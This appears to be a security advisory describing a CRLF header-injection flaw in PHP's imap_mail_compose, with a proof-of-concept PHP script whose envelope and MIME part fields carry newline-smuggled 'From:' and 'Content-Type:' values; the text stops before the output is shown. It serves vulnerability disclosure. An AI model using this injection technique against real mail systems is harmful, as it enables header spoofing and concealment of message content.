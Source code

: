 it is recommended to warn users of using this extension due to potential security concerns, phase-out the `imap` extension and deprecate it as soon as possible (https://www.php.net/manual/en/extensions.state.php).

This vulnerability may allow a malicious actor to inject `CR-LF` control sequences into the MIME-Message that is constructed when `imap_mail_compose` is called, taking control over MIME headers, adding new headers, overriding existing, or perform MIME header splitting in an attempt to censor following headers or leaking them with the MIME Message Body.





### Proof of Concept

#### PoC #1 - MIME Splitting Attack, Header injection, MultiPart Header Injection

* Note how MIME headers are injected `X-INJECTED`.
* Note how `From, Subject` is split from the rest. see python `MIMEText` parser output below.
* Note how the multipart-mime now has multiple `Content-Type: X-INJECTED` overriding the original.


```php
<?php
$envelope["from"]= "joe@example.com\n From : X-INJECTED";
$envelope["to"]  = "foo@example.com\nFrom: X-INJECTED";
$envelope["cc"]  = "bar@example.com\nFrom: X-INJECTED";
$envelope["subject"]  = "bar@example.com\n\n From : X-INJECTED";
$envelope["x-remail"]  = "bar@example.com\nFrom: X-INJECTED";
$envelope["something"]  = "bar@example.com\nFrom: X-INJECTED";

$part1["type"] = TYPEMULTIPART;
$part1["subtype"] = "mixed";

$part2["type"] = TYPEAPPLICATION;
$part2["encoding"] = ENCBINARY;
$part2["subtype"] = "octet-stream\nContent-Type: X-INJECTED";
$part2["description"] = "some file\nContent-Type: X-INJECTED";
$part2["contents.data"] = "ABC\nContent-Type: X-INJECTED";

$part3["type"] = TYPETEXT;
$part3["subtype"] = "plain";
$part3["description"] = "description3";
$part3["contents.data"] = "contents.data3\n\n\n\t";

$body[1] = $part1;
$body[2] = $part2;
$body[3] = $part3;

echo imap_mail_compose($envelope, $body);
?>
```

* Output: 
